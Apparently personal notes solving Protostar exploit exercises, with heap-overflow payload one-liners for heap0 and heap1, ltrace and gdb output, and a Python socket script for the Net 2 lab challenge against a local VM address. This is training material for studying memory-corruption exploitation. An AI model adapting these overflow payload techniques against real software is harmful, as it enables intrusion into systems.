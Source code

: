 https://sh3llc0d3r.com/protostar-exploit-exercises-heap0/

/opt/protostar/bin/heap0 $(python -c 'print "A"*72 + "\x64\x84\x04\x08")

## heap1

```
$ ltrace ./heap1
__libc_start_main(0x80484b9, 1, 0xbffff894, 0x8048580, 0x8048570 <unfinished ...>
malloc(8)                                                                           = 0x0804a008
malloc(8)                                                                           = 0x0804a018
malloc(8)                                                                           = 0x0804a028
malloc(8)                                                                           = 0x0804a038
strcpy(0x0804a018, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

```
(gdb) p winner
$2 = {void (void)} 0x8048494 <winner>
```

```
 /opt/protostar/bin/heap1 `python -c 'print "A"*20+"\x74\x97\x04\x08"'` `python -c 'print("\x94\x84\x04\x08")'`
and we have a winner @ 1588376578
```

## Net 0
http://github.com/z3tta/Exploit-Exercises-Protostar/blob/master/17-Net0.md

## Net 1
https://github.com/z3tta/Exploit-Exercises-Protostar/blob/master/18-Net1.md

## Net 2
(Check Liveoverflow guide again)
```
import socket
import struct

s = socket.socket()
s.connect(("192.168.56.101",2997))

sum = 0
for i in range(4):
	data = s.recv(4)
	data = "%d\n" % (struct.unpack('<i', data))
	sum += int(data)

s.send(struct.pack("<I", sum))
print s.recv(1024)
s.close()
```

## Net 3